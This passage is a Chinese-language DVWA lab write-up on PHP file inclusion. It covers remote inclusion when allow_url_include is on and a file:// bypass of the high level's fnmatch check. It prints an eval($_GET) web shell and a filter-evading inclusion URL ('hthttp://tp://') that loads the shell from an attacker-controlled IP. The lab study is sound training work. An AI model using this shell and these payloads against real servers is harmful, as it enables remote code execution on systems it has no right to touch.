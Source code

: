 当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致远程代码执行。

代码文件shell.php
```php
<?php
echo phpinfo();
eval($_GET['pass']);
?>
```
构造远程url，http://127.0.0.1/dvwa/vulnerabilities/fi/page=hthttp://tp://恶意ip/shell.php 这里的shell.php的后缀名为任意的组合，比如.txt，都会被尝试执行php。如果shell中不是php内容，则会直接显示对应的内容。

需要修改php.ini系统配置allow_url_include=On。
可以在kali虚拟机中开启Apache2服务
```
service apache2 start
cd /var/www/html/
vim shell.php

写入
<?php
echo "welcome test"
?>
保存退出即可。
```
然后访问链接示例：http://127.0.0.1:9000/dvwa/vulnerabilities/fi/?page=hthttp://tp://192.168.29.135/shell.php 。



## 0x03 High

#### 源码分析
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
检查文件名为file开头的文件并且文件名不能为include.php。使用fnmatch()确保$file是以file开头。

那么可以利用file伪协议绕过，如：file://C:\\test.txt。php包含进来时会把file://C:\\test.txt当成文件名读进来从而绕过fnmatch，然后在执行包含时会根据file伪协议把file伪协议路径下的文件包含进来。

当然前提是得知道要包含文件的绝对路径，无论什么后缀的文件被包含进来后都会当做php执行。
